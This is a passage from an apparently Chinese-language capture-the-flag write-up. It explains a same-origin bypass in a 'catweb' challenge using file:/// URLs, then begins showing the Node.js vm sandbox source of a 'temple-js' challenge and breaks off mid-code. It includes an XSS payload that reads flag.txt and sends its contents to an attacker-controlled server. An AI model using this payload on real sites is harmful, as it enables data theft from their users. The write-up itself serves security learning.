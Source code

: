 通过exploit iframe以及button click完成二次触发load和Bypass SOP

那么攻击思路就很明显了

- 由于都是静态页面 file:///app/templates/index.html等价于catweb.zajebistyc.tf。
- 发送给后台bot file:///协议的payload 并且加上我们自己的js
- 后台点击触发

Payload如下：

```html
file:///app/templates/index.html?", "status": "ok", "content":["a\"><script>let xhr = new XMLHttpRequest();xhr.onload=()=>{location.href='http://vps?q='+encodeURIComponent(btoa(xhr.responseText))}; xhr.open('GET', 'flag.txt', false); xhr.send();  </script>"], "poc": "
```

### temple-js

通过这道题确实学到了很多

题目源码如下：

```javascript
const express = require("express")
const fs = require("fs")
const vm = require("vm")
const watchdog = require("./watchdog");

global.flag = fs.readFileSync("flag").toString()
const source = fs.readFileSync(__filename).toString()
const help = "There is no help on the way."

const app = express()
const port = 3000

app.use(express.json())
app.use('/', express.static('public'))

app.post('/repl', (req, res) => {
    let sandbox = vm.createContext({par: (v => `(${v})`), source, help})
    let validInput = /^[a-zA-Z0-9 ${}`]+$/g
    
    let command = req.body['cmd']
    
    console.log(`${req.ip}> ${command}`)

    let response;

    try {
        if(validInput.test(command))
        {    
            let watch = watchdog.schedule()
            try {
                response = vm.runInContext(command, sandbox, {
                    timeout: 300,
                    displayErrors: false
                });
            } finally {
                watchdog.stop(watch)
            }
        } else
            throw new Error("Invalid input.")
    } catch(ex)
    {
        response = ex.toString()
    }

```